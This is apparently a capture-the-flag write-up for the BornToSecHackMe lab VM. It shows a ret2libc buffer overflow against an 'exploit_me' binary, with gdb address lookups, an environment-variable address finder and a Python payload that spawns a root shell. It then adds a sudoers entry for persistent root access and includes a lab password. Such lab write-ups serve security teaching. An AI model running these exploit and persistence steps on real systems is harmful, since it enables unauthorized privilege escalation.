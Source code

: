 # Buffer overflow

After getting access to `zaz` and following the buffer overflow method from the first writeup (**bomb**), we can grant `sudo` rights to zaz.

Again, we need to create a buffer overflow, using the previous method :<br/>
`export SHELLSH=/bin/sh`

Inside `main.c` :

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char **argv)
{
        char *ptr = getenv("SHELLSH");
        if (ptr != NULL)
        {
                printf("Estimated address: %p\n", ptr);
                return 0;
        }
}
```

Using gdb on `exploit_me` once again, let's get back the adresses of `system` and `exit`.

```
gdb exploit_me
b main
r
p system --> $1 = {<text variable, no debug info>} 0xb7e6b060 <system>
p exit --> $2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

Compile the script, then execute it :
```
zaz@BornToSecHackMe:~$ ./env_addr
Estimated address: 0xbfffffba
```

Now let's create a buffer overflow to launch `/bin/sh` as `root`. (You might have to play with the last hexadecimal value to get it right, since our SHELLSH address is approximative).
```
./exploit_me `python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1]) + '\xbf\xff\xff\xba'[::-1]"`
```


# Visudo

Once we're `root`, we can edit the `/etc/sudoers` file using `visudo` (under nano).<br/>
Let's grand `zaz` the exact same rights as root :

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
zaz     ALL=(ALL:ALL) ALL
[...]
```

Save the file, then close the running shell (you should come back as zaz).<br>
Now we should be able to log as root using zaz's password. Let's try !<br>
```
$ sudo su
Password : 646da671ca01bb5d84dbb5fb2238dc8e
root@BornToSecHackMe:/home/zaz#
$ whoami
root
```

Voilà !

*(We can also power down the VM, turn it on again and log as zaz through ssh then `sudo su` to try it out and make sure it's right.)*
